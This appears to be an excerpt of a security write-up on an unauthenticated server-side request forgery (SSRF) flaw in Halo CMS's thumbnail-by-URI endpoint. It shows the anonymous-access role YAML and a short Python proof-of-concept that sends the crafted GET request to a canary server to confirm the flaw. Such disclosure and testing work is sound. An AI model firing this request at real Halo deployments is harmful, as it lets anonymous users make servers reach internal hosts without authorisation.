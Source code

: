 ### RBAC Analysis - CRITICAL FINDING

**Authentication Requirements:**
- **Required Role:** **NONE - Anonymous access allowed!**
- **API Group:** `api.storage.halo.run` (Public API with anonymous access)
- **Privilege Level:** **PUBLIC (no authentication required)**

```yaml
# role-template-anonymous.yaml - GRANTS PUBLIC ACCESS
rules:
  - apiGroups: [ "api.storage.halo.run" ]
    resources: [ "thumbnails/via-uri" ]        # ❌ ALLOWS ANONYMOUS SSRF!
    verbs: [ "get", "list" ]
```

**CRITICAL IMPACT:** Any internet user can exploit this SSRF vulnerability without authentication!

---

## 🛠 Exploitation Methodology

### No Authentication Challenge

Unlike other Halo CMS vulnerabilities, this SSRF requires **no authentication whatsoever**:

1. **Direct exploitation** - No login required
2. **Anonymous access** - Any internet user can exploit
3. **Simple GET request** - No complex payloads needed
4. **Immediate impact** - No session management required

### Simple Exploitation Approach

Since no authentication is required, exploitation is straightforward:

```python
class HaloSSRFThumbnailTest:
    def __init__(self, base_url):
        self.base_url = base_url
        # No authentication needed - vulnerability is publicly accessible!
        
    def test_thumbnail_ssrf(self):
        """Exploit SSRF via publicly accessible thumbnail service"""
        
        # Start canary server for SSRF proof
        canary_url = f"http://host.docker.internal:{self.canary_port}/thumbnail-ssrf-test"
        
        # Construct attack URL - NO AUTHENTICATION REQUIRED!
        attack_url = (f"{self.base_url}/apis/api.storage.halo.run/v1alpha1/"
                      f"thumbnails/-/via-uri?uri={canary_url}&size=L")
        
        print(f"🎯 Testing: GET {attack_url} (Anonymous access)")
        
        # Execute SSRF attack - simple GET request, no auth
        response = requests.get(attack_url)
        
        # Wait for canary hit
        time.sleep(2)
        
        # Verify SSRF success
        if len(CanaryHandler.connections) > 0:
            print("🚨 SSRF CONFIRMED! Anonymous user triggered server-side request")
            return True
        else:
            print("❌ No SSRF detected")
            return False
```
